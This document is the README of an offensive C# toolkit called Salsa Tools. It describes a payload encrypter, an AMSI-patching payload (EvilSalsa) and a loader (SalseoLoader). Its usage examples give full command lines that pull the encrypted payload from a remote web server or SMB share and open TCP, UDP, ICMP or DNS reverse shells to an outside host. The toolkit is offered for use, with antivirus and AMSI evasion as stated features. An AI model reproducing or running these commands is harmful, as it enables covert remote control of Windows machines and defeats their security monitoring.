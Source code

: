 ![License](https://img.shields.io/badge/license-GNU-green.svg?style=flat-square)

# **Salsa Tools - ShellReverse**
## **TCP/UDP/ICMP/ DNS and AV bypass, AMSI patched**

```
   _____       __              ______            __    
  / ___/____ _/ /________ _   /_  __/___  ____  / /____
  \__ \/ __ `/ / ___/ __ `/    / / / __ \/ __ \/ / ___/
 ___/ / /_/ / (__  ) /_/ /    / / / /_/ / /_/ / (__  ) 
/____/\__,_/_/____/\__,_/    /_/  \____/\____/_/____/  
                                                       

 [+] Starting the fucking Salsa...
 [+] EncrypterAssembly (Software to encrypt our payload)
 [+] EvilSalsa (This is our payload)
 [+] SalseoLoader (Software that we will use to load our encrypted payload)
```
Salsa Toos is a set of tools written in C #  
that allows you to have a shellreverse in any windows environment without the need of powershell for it's execution.  


```
  ______                             _            
 |  ____|                           | |           
 | |__   _ __   ___ _ __ _   _ _ __ | |_ ___ _ __ 
 |  __| | '_ \ / __| '__| | | | '_ \| __/ _ \ '__|
 | |____| | | | (__| |  | |_| | |_) | ||  __/ |   
 |______|_| |_|\___|_|   \__, | .__/ \__\___|_|   
     /\                   __/ | || |   | |        
    /  \   ___ ___  ___ _|___/|_|| |__ | |_   _   
   / /\ \ / __/ __|/ _ \ '_ ` _ \| '_ \| | | | |  
  / ____ \\__ \__ \  __/ | | | | | |_) | | |_| |  
 /_/    \_\___/___/\___|_| |_| |_|_.__/|_|\__, |  
                                           __/ |  
                                          |___/   
			  
 [+] Software that encrypts the payload using RC4
 [+] We have the version in python and the version in .exe
```
## Usage EncrypterAssembly in python

```
python encrypterassembly.py <FILE> <PASSWORD> <OUTPUT>
```

## Usage EncrypterAssembly in .EXE

```
Encrypterassembly.exe <FILE> <PASSWORD> <OUTPUT>
```
![](https://github.com/Hackplayers/Salsa-tools/blob/master/images/encrypterpython.png)

```
   ___ __ __  ____  _            
  /  _]  |  ||    || |           
 /  [_|  |  | |  | | |           
|    _]  |  | |  | | |___        
|   [_|  :  | |  | |     |       
|     |\   /  |  | |     |       
|_____| \_/  |____||_____|       
                                 
  _____  ____  _     _____  ____ 
 / ___/ /    || |   / ___/ /    |
(   \_ |  o  || |  (   \_ |  o  |
 \__  ||     || |___\__  ||     |
 /  \ ||  _  ||     /  \ ||  _  |
 \    ||  |  ||     \    ||  |  |
  \___||__|__||_____|\___||__|__|
  
[+] That is our Payload
                                 
```
## Description

EvilSalsa is our payload. Basically what we do is load the System.Management.Automation .dll. Create a runspace and within that runspaces we have four types of shells (TCP / UDP / ICMP / DNS). When the EvilSalsa is loaded into the system, the first thing it does is to check if "c:\windows\system32\amsi.dll" is found in the system. If it is in the system, it is patched: D. Patching is a patch variant of CyberArk and Rastamouse.

AMSI Bypass Redux (CyberArk) https://www.cyberark.com/threat-research-blog/amsi-bypass-redux/  
AMSI Bypass (Rastamouse) https://rastamouse.me/2018/11/amsiscanbuffer-bypass---part-3/  


```
  _____  ____  _     _____   ___   ___    
 / ___/ /    || |   / ___/  /  _] /   \   
(   \_ |  o  || |  (   \_  /  [_ |     |  
 \__  ||     || |___\__  ||    _]|  O  |  
 /  \ ||  _  ||     /  \ ||   [_ |     |  
 \    ||  |  ||     \    ||     ||     |  
  \___||__|__||_____|\___||_____| \___/   
                                          
 _       ___    ____  ___      ___  ____  
| |     /   \  /    ||   \    /  _]|    \ 
| |    |     ||  o  ||    \  /  [_ |  D  )
| |___ |  O  ||     ||  D  ||    _]|    / 
|     ||     ||  _  ||     ||   [_ |    \ 
|     ||     ||  |  ||     ||     ||  .  \
|_____| \___/ |__|__||_____||_____||__|\_|

[+] This software is the one that we will use to load the encrypted payload
```

## Description

This software is the one that we will use to load the encrypted payload. SalseoLoader can be compiled as a library or as an executable. In the case that it is compiled as executable, we must only pass the argument that we want to execute. On the contrary, if we compile it as a library. We will have to make an export of the descriptor "main". And the way to create the argument, is done through the reading of environmental variables.

# Usage SalseoLoader
```
SalseoLoader.exe <PASSWORD> <PAYLOAD PATH> <SHELL TYPE> <LHOST> <LPORT>
```

## Usage SalseoLoader in .EXE reading from web server.
## Example ReverseUDP
```
SalseoLoader.exe hc0n-2019 http://192.168.1.235/elmal.txt reverseudp 192.168.1.235 1337
```
![](https://github.com/Hackplayers/Salsa-tools/blob/master/images/example1.png)

## Usage SalseoLoader in .EXE reading from local file.
## Example ReverseTCP
```
SalseoLoader.exe hc0n-2019 C:\elmal.txt reversetcp 192.168.1.235 1337
```
![](https://github.com/Hackplayers/Salsa-tools/blob/master/images/example2.png)


## Usage SalseoLoader in .EXE reading from SMB file.
## Example ReverseICMP
```
SalseoLoader.exe hc0n-2019 \\192.168.1.235\evil\elmal.txt reverseicmp 192.168.1.235 
```
![](https://github.com/Hackplayers/Salsa-tools/blob/master/images/example3.png)

## Usage SalseoLoader 
## Example ReverseDNS
```
SalseoLoader.exe hc0n-2019 C:\elmal.txt reversedns 192.168.1.235 licordebellota.org
```

![](https://github.com/Hackplayers/Salsa-tools/blob/master/images/example4.png)

